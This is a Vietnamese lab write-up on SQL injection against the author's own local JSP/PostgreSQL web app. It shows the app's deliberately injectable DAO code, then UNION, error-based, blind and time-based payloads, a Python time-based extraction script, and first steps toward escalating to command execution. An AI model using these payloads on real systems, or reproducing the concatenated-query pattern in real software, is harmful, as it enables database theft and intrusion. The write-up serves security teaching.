


# Write Up SQL Injection Lab

by TimoMangCut

## I/Introduction

### Description

- **Mục tiêu**: Kiểm thử lỗ hổng SQL Injection trên trang login, hàm search của ứng dụng web Java JSP kết hợp MVC, sử dụng cơ sở dữ liệu PostgreSQL.
- **Phạm vi**: Tập trung vào các kỹ thuật khai thác SQLi.
- **Công cụ sử dụng**: Burp Suite, VSCode.
- **Phương pháp tiếp cận**: Sử dụng các kỹ thuật SQLi khác nhau để khai thác và dump dữ liệu.

### **Executive Summary**

- **Tóm tắt kết quả**: Ứng dụng tồn tại lỗ hổng SQL Injection tại trang Login và hàm Search, cho phép khai thác để dump dữ liệu, thậm chí leo thang thành RCE. Cần sửa lỗi SQLi bằng cách sử dụng PreparedStatement.

## II/ Summary source code + web

### **1/Sơ lược về ứng dụng web**

Khi truy cập với URL : [http://localhost:8082/vnpt/](http://localhost:8082/vnpt/view/signin.jsp), ta sẽ được chuyển hướng đến [http://localhost:8082/vnpt/view/signin.jsp](http://localhost:8082/vnpt/view/signin.jsp).



Thử tạo một tài khoản mới với username là `tmmc`


Sau đó đăng nhập với user vừa tạo


Thử tìm kiếm


Vậy là ta đã biết trang web này có 3 chức năng chính

- Đăng ký
- Đăng nhập
- Tìm kiếm báo mới

### **2/Sơ lược về source code**

- Đến với source code → [Source  Code Web](https://github.com/TimoMangCut/My_Project_Hacking/tree/main/Web_to_test_sqli/)
- Còn đây là phần code xử lý các câu truy vấn SQL
    
    ```java
    package dao;
    
    import java.sql.Connection;
    import java.sql.DriverManager;
    import java.sql.ResultSet;
    import java.sql.SQLException;
    import java.sql.Statement;
    
    public class UserDAO {
        private static final String JDBC_URL = "jdbc:postgresql://localhost:5432/phuc";
        private static final String JDBC_USERNAME = "postgres";
        private static final String JDBC_PASSWORD = "123123";
    
        private Connection getConnection() throws SQLException {
            try {
                Class.forName("org.postgresql.Driver");
            } catch (ClassNotFoundException e) {
                throw new SQLException("Không tìm thấy driver PostgreSQL", e);
            }
            return DriverManager.getConnection(JDBC_URL, JDBC_USERNAME, JDBC_PASSWORD);
        }
    
        public String signin(String username, String password) {
            String sql = "SELECT * FROM users WHERE username = '" + username + "' AND password = '" + password + "';";
    
            try (Connection conn = getConnection();
                 Statement stmt = conn.createStatement()) {
    
                boolean hasResults = stmt.execute(sql);
                if (hasResults) {
                    try (ResultSet rs = stmt.getResultSet()) {
                        if (rs.next()) {
                            return "✅ Đăng nhập thành công!";
                        }
                    }
                }
                return "❌ Sai tài khoản hoặc mật khẩu.";
            } catch (SQLException e) {
                return "🚨 Lỗi SQL: " + e.getMessage();
            }
        }
    
        public String signup(String username, String password) {
            String sql = "INSERT INTO users (username, password) VALUES ('" + username + "', '" + password + "');";
    
            try (Connection conn = getConnection();
                 Statement stmt = conn.createStatement()) {
    
                stmt.execute(sql);
                return "✅ Đăng ký thành công!";
            } catch (SQLException e) {
                return "🚨 Lỗi SQL: " + e.getMessage();
            }
        }
        public String search(String search) {
            String sql = "SELECT title, content FROM news WHERE title LIKE '%" + search + "%'";
            StringBuilder result = new StringBuilder();
            
            try (Connection conn = getConnection();
                 Statement stmt = conn.createStatement()) {
                
                boolean isResultSet = stmt.execute(sql);
                result.append("SQL Query: ").append(sql).append("\n\n");
                
                boolean found = false;
                while (isResultSet) {
                    try (ResultSet rs = stmt.getResultSet()) {
                        while (rs.next()) {
                            found = true;
                            String title = rs.getString("title");
                            String content = rs.getString("content");
                            result.append("Tiêu đề: ").append(title)
                                  .append("\nNội dung: ").append(content)
                                  .append("\n-------------------\n");
                        }
                    }
                    isResultSet = stmt.getMoreResults();
                }
                
                if (!found) {
                    return "❌ Không tìm thấy kết quả.\nSQL Query: " + sql;
                }
                return "✅ Kết quả tìm kiếm:\n" + result.toString();
                
            } catch (SQLException e) {
                return "🚨 SQL Error: " + e.getMessage() + "\nQuery: " + sql;
            }
        }
    }
    
    ```
    

## III/ Findings - Methodology - Exploit

### 1/ Findings

- Nhận thấy phần xử lý các câu truy vấn trong file Java có vấn đề
    1. String SQL = 
        
        `"SELECT * FROM users WHERE username = '" + username + "' AND password = '" + password + "';";`
        
    2. Sử dụng Statement
    3. Không validate input trước khi xử lý
    4. In ra lỗi trực tiếp nếu có lỗi
        
        ```java
        catch (SQLException e) {
                    return "🚨 Lỗi SQL: " + e.getMessage();
                }
        ```
        
- Bắt đầu đưa test-case với các dạng SQL Injection
    - Trước khi đưa test case với các dạng SQLi, thì phải xác định xem câu truy vấn SQL sử dụng SELECT bao nhiêu cột
        - Sử dụng `ORDER BY`  để xác định bằng payload :
            
            
            
            Khi thử với `ORDER BY 2`, ứng dụng trả về `không tìm thấy kết quả`
            
            Tiếp tục tăng lên `ORDER BY 3`
            
            
            
            Nhận thấy chương trình xảy ra `lỗi` → Xác định câu truy vấn SQL đang SELECT `2` cột
            
            Giải thích : 
            
            - `ORDER BY n` : n thay thế cho cột thứ … Nếu câu SELECT truy vấn `2` cột thì ORDER cột thứ `3` nghe vô lý nhỉ 😁
    - **UNION based**
        - Khi đã xác định được câu truy vấn SQL SELECT 2 cột, thì ta sử dụng payload :
            - `-999' UNION SELECT null,datname FROM pg_database;-- -`
                
                
                
            - Giải thích payload :
                - Khi Inject với payload trên, câu truy vấn đầy đủ khi ứng dụng web thao tác với database là :
                    - `SELECT title, content FROM news WHERE title LIKE '%-999' UNION SELECT null,datname FROM pg_database;-- -%’`
                - Câu truy vấn này được chia làm 3 phần :
                    - Phần đầu : `SELECT title, content FROM news WHERE title LIKE '%-999'`
                        - Câu truy vấn này là mặc định trong code của ứng dụng web. `-999'` được thêm vào ở đầu payload nhằm loại bỏ bớt các thông tin như title, content từ bảng news, ta chỉ tập trung vào câu truy vấn sau. dấu `'` được dùng để đóng dấu nháy đơn lại → Nhằm mục đích nối chuỗi với câu truy vấn UNION phía sau
                    - Phần giữa : UNION
                        - UNION dùng để “nhóm” kết quả của 2 câu truy vấn `SELECT` lại với nhau. 2 câu truy vấn phải có cùng `số cột`, và cột truy vấn phải cùng `kiểu dữ liệu` với nhau (Đó là lí do tại sao sử dụng null thay vì 1,2,3,..)
                    - Phần cuối : `SELECT null,datname FROM pg_database;-- -%’`
                        - Câu truy vấn phía sau sẽ lấy giá trị tại cột đầu tiên là null, và database name trong bảng pg_database. `;— -` : kết thúc câu truy vấn, và comment để dấu nháy đơn cuối cùng không gây ra lỗi.
            - Exploit
                - Ta đã xác định được câu truy vấn SQL SELECT 2 cột, và database name gồm 4 kết quả :
                    - postgres
                    - phuc
                    - template0
                    - template1
                - `postgres, template0, template1` là các database mặc định của postgresql → ở phần này, mình sẽ tiếp tục đào sâu vào database `phuc`.
                - SQLi UNION based để tìm bảng dữ liệu có trong database phuc
                    - Sử dụng payload : `-999' UNION SELECT null,table_name FROM information_schema.tables where table_catalog='phuc' and table_schema='public';-- -`
                        
                        
                        
                    - Giải thích :
                        - Mình sẽ tập trung vào câu truy vấn ở sau.
                            - `SELECT null,table_name FROM information_schema.tables where table_catalog='phuc' and table_schema='public'`
                        - `table_catalog` : database mà bảng đó thuộc về
                        - `table_schema = ‘public’` : Nếu tạo bảng mà không chỉ định schema cụ thể, mặc định nó sẽ thuộc schema public.
                    - Nhận thấy có một table nhạy cảm → `users`
                - SQLi UNION based để tìm các cột dữ liệu có trong table `users`
                    - Sử dụng payload : `-999' UNION SELECT null,column_name FROM information_schema.columns where table_catalog='phuc' and table_name ='users' and table_schema='public';-- -`
                    
                    
                    
                    - Giải thích Payload
                        - Tiếp tục, mình cũng sử dụng payload tương tự như khi list table_name, chỉ thay đổi cột là `table_name` → `column_name`, và bảng `information_schema.tables` → `information_schema.columns`. Thêm một điều kiện mới trong câu SELECT → `table_name = ‘users’`
                - SQLi UNION based để dump data có trong table `users`
                    - Sử dụng payload : `-999' UNION SELECT username,password FROM users;-- -`
                        
                        
                        
                    - Payload này dễ hiểu nên mình sẽ không giải thích.
    - **Error based**
        - Sử dụng payload để test Error based : `-99' and 1=CAST('a'AS INT);-- -`
            
            
            
        - Giải thích
            - Thay vì đặt điều kiện Where title LIKE … `AND 1=1`, thì mình sử dụng ép kiểu char ‘a’ sang INT để so sánh với 1. Và chương trình trả về lỗi `ERROR: invalid input syntax for type integer: "a”`. Có nghĩa là ‘a’ không phải cái input hợp lệ cho hàm CAST để ép kiểu thành INT, muốn ép kiểu thành INT phải là số (số trong text, string hay char đều được).
        - Exploit
            - SQLi Error based để tìm database name
                - Sử dụng payload :
                - `-99' and 1=CAST((SELECT datname FROM pg_database LIMIT 1 OFFSET 0) AS INT);-- -`
                    
                    
                    
                - Tiếp tục tăng OFFSET → 1
                    
                    
                    
                - Tiếp tục tăng OFFSET → 2
                    
                    
                    
                - Tiếp tục tăng OFFSET → 3
                    
                    
                    
                - Tiếp tục tăng OFFSET → 4
                    
                    
                    
                    - nhận thấy OFFSET = 4 thì không trả về kết quả → Vậy là ta có 4 database name : `postgres, phuc, template1, template0`
                - Giải thích payload :
                    - `-99' and 1=CAST((SELECT datname FROM pg_database LIMIT 1 OFFSET 0) AS INT);-- -`
                    - Mình cũng đã giải thích ở trên phần `SELECT datname`, sử dụng ép kiểu bằng hàm CAST ( AS INT ) để ép kiểu kết quả trả về thành INT để chương trình gây lỗi và hiển thị lại.
                    - Sử dụng LIMIT 1 và OFFSET 0 : để chương trình chỉ trả về một kết quả đầu tiên, tính từ OFFSET thứ 0 trở đi (nếu OFFSET là 1, sẽ không trả về kết quả OFFSET thứ tự 0)
            - SQLi Error based để tìm table_name
                - Sử dụng payload : `-99' and 1=CAST((SELECT table_name FROM information_schema.tables WHERE table_catalog='phuc' AND table_schema='public' LIMIT 1 OFFSET 0) AS INT);-- -`
                    
                    
                    
                - Tiếp tục tăng OFFSET → 1
                    
                    
                    
                - Tiếp tục tăng OFFSET → 2
                    
                    
                    
                - Tiếp tục tăng OFFSET → 3
                    
                    
                    
                - Tiếp tục tăng OFFSET → 4
                    
                    
                    
                    - Với OFFSET = 4 thì thấy bảng products cũng hấp dẫn đó, nhưng mà thôi.
                - Tiếp tục tăng OFFSET → 5
                    
                    
                    
                    - Nhận thấy có bảng `users` nhạy cảm, noted !
                - Tiếp tục tăng OFFSET → 6
                    
                    
                    
                - Tiếp tục tăng OFFSET → 7
                    
                    
                    
                    - Khi tăng OFFSET đến 7 thì ứng dụng trả về không tìm thấy kết quả
                - Vậy là với database = ‘phuc’ → Gồm có 7 bảng :
                    - `conca, conmeo, con_cho, conchim, products, users, news`
                    - Nhận thấy có bảng `users` nhạy cảm → Để ý bảng này
                - Giải thích payload
                    - Với payload : `-99' and 1=CAST((SELECT table_name FROM information_schema.tables WHERE table_catalog='phuc' AND table_schema='public' LIMIT 1 OFFSET 0) AS INT);-- -`
                    - Mình cũng đã giải thích sơ ở trên rồi. So sánh 1 `với` kết quả truy vấn table_name(`SELECT table_name FROM information_schema.tables WHERE table_catalog='phuc' AND table_schema='public' LIMIT 1 OFFSET 0`), với kết quả = `conca` (Câu truy vấn này mình đã giải thích ở phần UNION based)
                        - → Payload rút gọn sẽ trở thành : `-99’ and 1=CAST(’conca’ AS INT);— -`
                        - Và chương trìng sẽ văng ra lỗi ‘conca’ không phù hợp để đổi sang INT → Mình phát hiện kết quả là `conca`
            - SQLi Error based để tìm column_name trong bảng `users`
                - Đã biết các table_name → Chú ý table users
                - Sử dụng payload`-99' and 1=CAST((SELECT column_name FROM information_schema.columns WHERE table_catalog='phuc' AND table_schema='public' AND table_name = 'users' LIMIT 1 OFFSET 0) AS INT);-- -`
                    
                    
                    
                - Tiếp tục tăng OFFSET → 1
                    
                    
                    
                - Tiếp tục tăng OFFSET → 2
                    
                    
                    
                - Tiếp tục tăng OFFSET → 3
                    
                    
                    
                - Vậy là bảng users có 3 cột : `id, username, password`
                - Đến đoạn column mình sẽ không giải thích nữa, vì các phần giải thích đã có ở phía trên rùi
            - SQLi Error based để dump data trong bảng `users`
                - Đã biết bảng users có các cột như : id, username, password
                    - Ta quan tâm đến 2 cột username và password
                - Vì ta sử dụng subqueries → Kết quả chỉ có thể trả về một cột
                    - Ta phải đi tìm từng username, và password ứng với username đó.
                - Sử dụng payload : `-99' and 1=CAST((SELECT username from users LIMIT 1 OFFSET 0) AS INT);-- -`
                    
                    
                    
                - Xem password của username = ‘tmmc’
                    
                    
                    
                    - Tới khúc này mới chợt nhận ra rằng password của mình là số (123123)
                        - → CAST INT hợp lệ nên không gây ra lỗi
                        - → Đoạn này chỉ có thể sửa lại password có chữ thì sẽ dump được, hoặc dò bằng blind/time-based
    - **Blind True/False**
        - Sử dụng payload để test True/False :
            
            
            
        - Giải thích : Sử dụng toán tử AND để đặt điều kiện cho phần đầu và phần sau, nếu cả 2 phần đều đúng → True, nếu 1 trong 2 phần sai → False
            - Ta thử với điều kiện vế đầu False :
                
                
                
        - Exploit
            
            Mình sẽ lấy account mình đã đăng ký để so sánh kết quả.
            
            - Giả sử có một check-list chứa các database name phổ biến → Trong đó có database name : `phuc`
                - Sử dụng payload : `' AND (SELECT datname FROM pg_database LIMIT 1 OFFSET 1)= 'phuc';-- -`
                    
                    
                    
                    - Nhận thấy ứng dụng trả về tất cả kết quả → Tồn tại database name `phuc`
                - Giải thích :
                    - Nếu ngắn gọn hơn, thì ứng dụng sẽ ngầm hiểu câu truy vấn như thế này : `SELECT … FROM … WHERE … AND 1=1` → Nếu điều kiện đầu (trước AND) đúng → Cả câu truy vấn sẽ đúng → Trả về kết quả
                    - Còn câu truy vấn subquery nằm bên trong thì đơn giản là lấy database name thôi → Và so sánh với giá trị mình dự đoán = `‘phuc’`
            - Giả sử ta có một check-list chứa các bảng dữ liệu phổ biến → Trong đó có bảng `users` → Test case table_name
                - Sử dụng payload :
                    
                    
                    
                - Nhận thấy không đúng → Tiếp tục tăng OFFSET
                    
                    
                    
                - Nhận thấy khi OFFSET = 5 → Trả về các bài viết → Đã đúng → `Tồn tại table users`
            - Giả sử ta có một check-list chứa các bảng dữ liệu phổ biến → Trong đó có các cột như `username & password` → Test case `column_name`
                - Sử dụng payload :
                    
                    
                    
                    - Bắt đầu với OFFSET = 0 → Tồn tại cột username trong bảng users
                - Tiếp tục thay đổi OFFSET để tìm cột password
                    
                    
                    
                - Tồn tại cột password tại OFFSET = 1
            - Sử dụng account đăng ký → Test case dump data
                - Mình sẽ sử dụng account `tmmc` với `password` mà mình đã đăng ký để thử nghiệm payload
                - Sử dụng payload :
                    
                    
                    
                    - Tại OFFSET 0 → Tồn tại username `tmmc`
                - Tiếp theo đến password của `tmmc`
                    
                    
                    
                    - Nhận thấy kết quả trả về là đúng → pass = `123123`
    - **Time based (manual)**
        - Phần này mình sẽ đưa ra những test case đơn giản để thử nghiệm thôi, còn lại sẽ nằm ở Scripting Python
        - Cho rằng đã biết database name tại phần tử đầu tiên (0) là `postgres`
        - Payload : `-99' OR (SELECT CASE WHEN(SELECT datname FROM pg_database LIMIT 1 OFFSET 0) = 'postgres' THEN pg_sleep(2) ELSE NULL END)IS NULL;-- -`
            
            
            
        - Giải thích :
            - Sử dụng toán tử `OR` để nối câu điều kiện sau lại với mệnh đề `WHERE` trong câu truy vấn mặc định.
            - Ở giữa là luận lý `OR` → Phía sau của mệnh đề `WHERE` là một câu subquery `CASE WHEN`, giống Mệnh đề IF - ELSE.
                - Nếu database name OFFSET 0 = `postgres` TRUE → Lập tức sleep 2 giây
                - Nếu FALSE → Không trả về gì ( Return NULL ).
            - Và đặt cả subquery `IS NULL` để tránh gây ra lỗi khi đi với `OR`.
    - **Time based (Script)**
        - Script Python
            
            ```python
            import requests
            
            URL = "http://localhost:8082/vnpt/search"
            CHARSET = "_0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"
            HEADERS = {
                'Cookie': 'JSESSIONID=FE90EBA9D28BD780D6C6C0D887A43CDB; language=en_US'
            }
            test = "UNION SELECT 1{cpr}2 haha {mid}"
            def is_successful_response(r):
                return r.elapsed.total_seconds() > 0.5
            def send_sqli(payload):
                data = {"search":payload}
                r = requests.post(URL, data=data, headers=HEADERS,allow_redirects=False) # Để ý Allow_redirects là gì ?
                if is_successful_response(r):
                    return True
            def binary_search(p, offset, index):
                comparator = ["<", ">", "="]
                low, high = 0, len(CHARSET) - 1
            
                while low <= high:
                    mid = (low + high) // 2
                    mid_char = CHARSET[mid]
                    print("Tui đang thử kí tự ----->",mid_char, "nè",end="\r")
                    payload = p.format(mid=mid_char, cpr=comparator[0], offset=offset, index=index)
                    if send_sqli(payload):
                        high = mid - 1
                        continue
            
                    payload = p.format(mid=mid_char, cpr=comparator[1], offset=offset, index=index)
                    if send_sqli(payload):
                        low = mid + 1
                        continue
                    
                    payload = p.format(mid=mid_char, cpr=comparator[2], offset=offset, index=index)
                    if send_sqli(payload):
                        return mid_char
                    else:
                        break
            
                return None
            def find_database_name(offset):
                database_name = ""
                index = 1
                query_template = (
                    "-99' OR (SELECT CASE WHEN (ASCII(SUBSTRING((SELECT datname FROM pg_database LIMIT 1 OFFSET {offset}), {index}, 1)) {cpr} ASCII('{mid}')) "
                    "THEN pg_sleep(0.5) ELSE NULL END) IS NULL;-- -"
                )
            
                while True:
                    found_char = binary_search(query_template, offset, index)
            
                    if not found_char:
                        break
            
                    database_name += found_char
                    print(f"[+] Current database name: {database_name}")
            
                    index += 1
            
                return database_name
            def dump_all_databases():
                offset = 0
                db_list = []
            
                while True:
                    print(f"[*] Dumping database at OFFSET {offset}...")
                    db_name = find_database_name(offset)
            
                    if not db_name:
                        break
            
                    db_list.append(db_name)
                    print(f"[+] Database name found: {db_name}")
            
                    offset += 1
            
                return db_list
            
            databases = dump_all_databases()
            print(f"\n[+] All databases dumped: {databases}")
            ```
            
        - Giải thích
            
            Khai báo các biến toàn cục
            
            ```python
            import requests
            
            URL = "<http://localhost:8082/vnpt/search>"
            CHARSET = "_0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"
            HEADERS = {
                'Cookie': 'JSESSIONID=FE90EBA9D28BD780D6C6C0D887A43CDB; language=en_US'
            }
            test = "UNION SELECT 1{cpr}2 haha {mid}"
            
            ```
            
            - `URL` : Biến này chứa endpoint nhận và xử lý input.
            - `CHARSET` : Biến này chứa các kí tự a-z viết hoa và viết thường, số, và dấu gạch dưới. Theo thứ tự `ascii` từ nhỏ đến lớn.
            - `HEADERS` : Biến này chứa thông tin phiên đăng nhập.
            - Hàm `is_successful_response(r)`
                
                ```python
                def is_successful_response(r):
                    return r.elapsed.total_seconds() > 0.5
                
                ```
                
                - **Chức năng** : Hàm này kiểm tra xem thời gian phản hồi có lớn hơn 0.5 hay không.
                - **Mục đích** : Dùng để quyết định kí tự đang thử có đúng hay không.
            - Hàm `send_sqli(payload)`
                
                ```python
                def send_sqli(payload):
                    data = {"search": payload}
                    r = requests.post(URL, data=data, headers=HEADERS, allow_redirects=False)
                    return is_successful_response(r)
                
                ```
                
                **Chức năng** : Hàm này nhận vào tham số `payload`, hàm này sẽ được hàm `binary_search` gọi để thực thi gửi payload đến endpoint. Chức năng của `send_sqli` là gửi gói tin http post đến endpoint với header là phiên đăng nhập(cookie) và body messege là `search=payload`. Sau đó kiểm tra có độ trễ > 0.5s hay không sau đó return `True/False`
                
            - Hàm `binary_search(p,offset,index)`
                
                ```python
                def binary_search(p, offset, index):
                    comparator = ["<", ">", "="]
                    low, high = 0, len(CHARSET) - 1
                
                    while low <= high:
                        mid = (low + high) // 2
                        mid_char = CHARSET[mid]
                        print("Tui đang thử kí tự ----->", mid_char, "nè", end="\\r")
                
                        # Thử điều kiện "<"
                        payload = p.format(mid=mid_char, cpr=comparator[0], offset=offset, index=index)
                        if send_sqli(payload):
                            high = mid - 1
                            continue
                
                        # Thử điều kiện ">"
                        payload = p.format(mid=mid_char, cpr=comparator[1], offset=offset, index=index)
                        if send_sqli(payload):
                            low = mid + 1
                            continue
                
                        # Thử điều kiện "="
                        payload = p.format(mid=mid_char, cpr=comparator[2], offset=offset, index=index)
                        if send_sqli(payload):
                            return mid_char
                        else:
                            break
                
                    return None
                ```
                
                - **Chức năng** : Hàm này nhận vào 3 tham số : `p=payload, offset, index`. Hàm này thực hiện truy vấn database name với offset `{offset}`  để xác định kí tự thứ `{index}` là gì, bằng tìm kiếm nhị phân.
                - **Giải thích + Mục đích :**
                    - Đầu tiên sẽ gán giá trị thấp nhất và lớn nhất cho lần lượt `low` và `high`, tiếp theo tính giá trị middle và gán cho `mid_char`. Khai báo một mảng gồm các dấu `<,>,=` để lát nữa thực hiện if-else
                    - Thực hiện vòng lặp `while low ≤ high` : Lặp đến khi nào low = high (Tức là chỉ còn 1 giá trị, thì lúc đó hàm lặp sẽ break). Tạo lại payload với các tham số vừa nhận(cpr,offset,index). Sau đó đưa vào hàm if-else
                    - **Giải thích if-else**
                        - Ở đây có 3 hàm if, tượng trưng cho 3 comparator. Lúc này ta cứ xem offset = 0 và index = 1, và gọi hàm `sqli(payload)`, nếu kết quả trả về True → `mid_char(U)` sẽ lớn hơn kí tự mà ta truy vấn → thu hẹp khoảng cách bằng việc gán giá trị `high = mid - 1` (Vd `high` ban đầu = 60, giờ đây chỉ còn 29 → `mid_char` từ 30 → 15. Thu hẹp khoảng cách đáng kể để tối ưu tốc độ)
                        - Nếu False → tiếp tục với vòng lặp if cùng dấu `>`, True thì tương tự, nhưng sẽ thay đổi `low = mid + 1`
                        - Nếu false tiếp → ta vẫn phải xét đến dấu `=`
                        - Nếu lại false → `break`, vì lúc này không còn kí tự nào phù hợp nữa
            - Hàm `find_database_name(offset)`
                
                ```python
                def find_database_name(offset):
                    database_name = ""
                    index = 1
                    query_template = (
                        "-99' OR (SELECT CASE WHEN (ASCII(SUBSTRING((SELECT datname FROM pg_database LIMIT 1 OFFSET {offset}), {index}, 1)) {cpr} ASCII('{mid}')) "
                        "THEN pg_sleep(0.5) ELSE NULL END) IS NULL;-- -"
                    )
                
                    while True:
                        found_char = binary_search(query_template, offset, index)
                        if not found_char:
                            break
                        database_name += found_char
                        print(f"[+] Current database name: {database_name}")
                        index += 1
                
                    return database_name
                
                ```
                
                - **Chức năng** : Nhận vào tham số `offset`, khai báo `index = 1`. Sau đó khởi tạo payload ban đầu.
                - Bắt đầu vòng lặp while True : Gọi hàm `binary_search` và gửi kèm với các biến như `payload, offset, và index = 1`. Nếu hàm binary_search không trả về → `break`. Nếu có → cộng chuỗi vào biến `database_name`. Sau đó tăng index lên `1` đơn vị, return lại database_name hiện tại và tiếp tục vòng lặp.
            - Hàm `dump_all_databases()`
                
                ```python
                def dump_all_databases():
                    offset = 0
                    db_list = []
                
                    while True:
                        print(f"[*] Dumping database at OFFSET {offset}...")
                        db_name = find_database_name(offset)
                        if not db_name:
                            break
                        db_list.append(db_name)
                        print(f"[+] Database name found: {db_name}")
                        offset += 1
                
                    return db_list
                
                ```
                
                - **Chức năng** : Khai báo `Offset = 0` và khai báo 1 mảng `db_list[]` chứa dữ liệu của các phần tử db name khác nhau. Tạo vòng lặp While True với việc gọi hàm `find_database_name` kèm với `offset = 0`, nếu hàm `find_database_name` không trả về kết quả → `break`, nếu có → thêm kết quả nhận được vào mảng `db_list[]`, tăng offset lên `1` đơn vị và tiếp tục vòng lặp.
            - Gọi hàm `dump_all_databases()`
                
                ```python
                databases = dump_all_databases()
                print(f"\\n[+] All databases dumped: {databases}")
                
                ```
                
            
            **Tóm lại** : 
            
            `dump_all_databases()` sẽ thực thi trước 
            
            → Sau đó sẽ gọi `find_database_name` và gán `offset` đầu tiên là `0` 
            
            → `find_database_name` tiếp tục gọi `binary_search` và gán `payload, offset = 0, index = 1`
            
            → `binary_search` sẽ cùng với các dữ kiện có được( `payload, offset, index, comparator` ) thực hiện vòng lặp thay đổi `comparator` và gửi truy vấn đến endpoint để tìm ra kí tự thứ `{index}`.
            
            → Khi tìm được kí tự thứ `{index}`, `find_database_name` sẽ gọi lại `binary_search` với `index + 1` cho đến khi nào hoàn thành database name đầu tiên.
            
            → Khi hoàn thành tìm được database name đầu tiên, hàm `dump_all_databases` thay đổi `offset + 1` để chuyển sang database name tiếp theo cho đến khi hết tìm được db name trong cơ sở dữ liệu
            
            →Cuối cùng được in ra mảng `db_list[]` các database name có trong csdl.
            
            Về payload : `99' OR (SELECT CASE WHEN (ASCII(SUBSTRING((SELECT datname FROM pg_database LIMIT 1 OFFSET {offset}), {index}, 1)) {cpr} ASCII('{mid}')) "
                    "THEN pg_sleep(0.5) ELSE NULL END) IS NULL;-- -"` 
            
            - **`99'`**: Làm cho điều kiện phía trước luôn sai, để câu lệnh SQL chạy phần `OR ...`.
            - **`SELECT datname FROM pg_database`**: Lấy tên các database từ bảng hệ thống `pg_database`
            - `{cpr} ASCII('{mid}')` : cpr là các comparators, mid = mid_char
            - **`LIMIT 1 OFFSET {offset}`**: Lấy kết quả thứ `offset` trở đi.
            - **`SUBSTRING(..., {index}, 1)`**: Lấy ký tự thứ `index` của tên database.
            - **`CASE WHEN ... THEN pg_sleep(0.5)`**: Nếu điều kiện đúng, cho ngủ 0.5s
            - **`IS NULL`**: Đảm bảo câu lệnh SQL không trả về kết quả, và tránh gây ra lỗi
            - → Tóm lại : So sánh kí tự thứ {index} của database thứ {offset} bé/lớn/bằng{cpr} so với {mid_char}
            - → Nếu khớp → sleep(0.5)
            - → Nếu không → thì thôi 😁
    - **SQLi to RCE**
        
        Vì mục tiêu là RCE, cho nên đầu tiên phải setup sao cho user của psql phải có quyền read/write file (Phải là `SuperUser` → `rolsuper = True`) . Chỉnh sửa `data_directory` mặc định của psql.
        
        
        
        - Exploit
            
            Mình đã biết được hàm search có thể Injection nối chuỗi câu truy vấn SQL nên mình sẽ đi từ đây luôn.
            
            - UNION based để kiểm tra user
                
                Sử dụng payload : `-9999' UNION SELECT null, current_user;-- -`
                
                
                
                Câu truy vấn đầy đủ : `SELECT title, content FROM news WHERE title LIKE '%-9999' UNION SELECT null, current_user;-- -%’`
                
                - Giải thích
                    
                    Truy vấn user hiện tại đang thao tác với database bằng UNION based
                    
            - UNION based để kiểm tra quyền hạn của user
                
                Có rất nhiều quyền hạn được set cho mỗi user tác động đến database, nhưng trong trường hợp này, mình chỉ muốn kiểm tra user có thể read/write file không. Theo như mình biết thì có 2 cách để kiểm tra rằng user có quyền read/write file không
                
                - 1/ Kiểm tra `pg_read_server_files/pg_write_server_files` trong `pg_roles`
                    - Vì mình sử dụng Psql 16, nên không có 2 tính năng này.
                - 2/ Kiểm tra SuperUser
                    - Kiểm tra rolsuper có bằng True hay không bằng câu truy vấn :
                    - `-9999' UNION SELECT null, CAST((SELECT rolsuper from pg_roles where rolname = current_user ) AS TEXT);-- -`
                        
                        
                        
                    - Kết quả trả về TRUE → Mặc định super user sẽ có toàn quyền read/write file
            - UNION based để kiểm tra data_directory mà user psql có thể tác động
                
                Sử dụng payload : `-999’ UNON SELECT null, setting FROM pg_settings WHERE name = ‘data_directory’; — -`
                
                
                
                - Câu truy vấn đầy đủ : `SELECT title, content FROM news WHERE title LIKE '%-999' UNION SELECT null, setting FROM pg_settings where name = 'data_directory';-- -%’`
                    - Phần sau `UNION`
                        - Thường thì muốn kiểm tra data_directory sẽ sử dụng query : `show data_directory`, mình đã thử stack query nhưng không được :p nên đã tham khảo và biết rằng nó ở `cột setting` trong `table pg_settings` với `name` là data_directory
